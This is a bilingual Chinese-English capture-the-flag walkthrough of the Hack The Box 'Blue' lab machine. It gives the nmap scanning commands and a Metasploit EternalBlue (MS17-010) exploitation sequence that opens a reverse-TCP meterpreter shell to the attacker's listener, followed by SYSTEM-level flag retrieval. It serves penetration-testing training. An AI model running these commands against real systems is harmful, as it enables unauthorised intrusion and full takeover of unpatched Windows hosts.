 # HTB - Blue 靶场渗透分析报告 | Blue Walkthrough 

> 🎯 难度 / Difficulty: Easy  
> 💡 类型 / Category: Windows / SMB / MS17-010  
> 🧠 技术点 / Key Techniques: EternalBlue, Metasploit, Privilege Check  
> 🌐 靶机地址 / Target IP: 10.10.10.40

---

## 1. 信息收集阶段 | Information Gathering

### 1.1 全端口扫描 | Full TCP Port Scan

```apl
nmap --min-rate=1000 -n -p- --open -Pn 10.10.10.40 -oN all_port_scan
```

🔍 中文说明：对目标进行高速度、无DNS解析的全端口扫描。
 🔍 EN: Conducting a high-speed, no-DNS full TCP port scan on the target.

------

### 1.2 端口服务识别 | Service and Version Detection

```apl
nmap -sC -sV -p135,139,445,49152,49153,49154,49155,49156,49157 10.10.10.40 -oN nmap_blue
```

🔍 中文说明：对已知端口进行脚本和版本识别，发现为 Windows 7 系统，SMB 开放。
 🔍 EN: Use default scripts and version detection on key ports. Found Windows 7 and open SMB.

------

### 1.3 漏洞扫描 | Vulnerability Check

```apl
nmap --script vuln 10.10.10.40 -p 139,445 -oN script_scan
```

🔍 中文说明：利用 Nmap 的漏洞脚本扫描 SMB 服务，发现目标存在 MS17-010 漏洞。
 🔍 EN: Scan SMB ports with Nmap vulnerability scripts. MS17-010 confirmed on the target.

------

## 2. 漏洞利用阶段 | Exploitation Phase

### 2.1 启动 Metasploit | Launch Metasploit

```apl
msfconsole
```

🛠️ 中文说明：进入渗透测试框架 Metasploit，准备配置漏洞利用模块。
 🛠️ EN: Launch Metasploit Framework to prepare for module configuration.

------

### 2.2 EternalBlue 模块配置 | EternalBlue Module Setup

```apl
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST <你的 VPN IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

💥 中文说明：加载永恒之蓝漏洞模块，配置远程目标与监听地址，执行攻击。
 💥 EN: Load EternalBlue exploit, set target IP and local listener, then run the exploit.

------

## 3. 获取权限与提权 | Gaining Access & Privileges

### 3.1 进入 shell 并验证权限 | Open Shell & Check Privileges

```apl
shell
whoami
```

🔑 中文说明：获取系统 shell 后执行 `whoami`，发现权限为 NT AUTHORITY\SYSTEM。
 🔑 EN: Get a system shell and run `whoami`, confirming SYSTEM-level privileges.

------

## 4. 查找并获取 Flags | Capture the Flags

```apl
type C:\Users\haris\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

🚩 中文说明：通过 meterpreter 或 shell 获取 user 和 root 的 flag。
 🚩 EN: Retrieve user and root flags from the respective user Desktop folders.

------

## 5. 总结与复盘 | Summary & Review

| 模块     | 内容                                           |
| -------- | ---------------------------------------------- |
| 🎯 漏洞   | MS17-010（永恒之蓝）                           |
| 🔌 服务   | SMB 端口（445）开放                            |
| 🧰 工具   | Nmap + Metasploit Framework                    |
| 🚀 成果   | 成功获取最高权限，读取两枚 flag                |
| 📚 学习点 | Windows 漏洞识别、MSF模块使用、SMB服务利用流程 |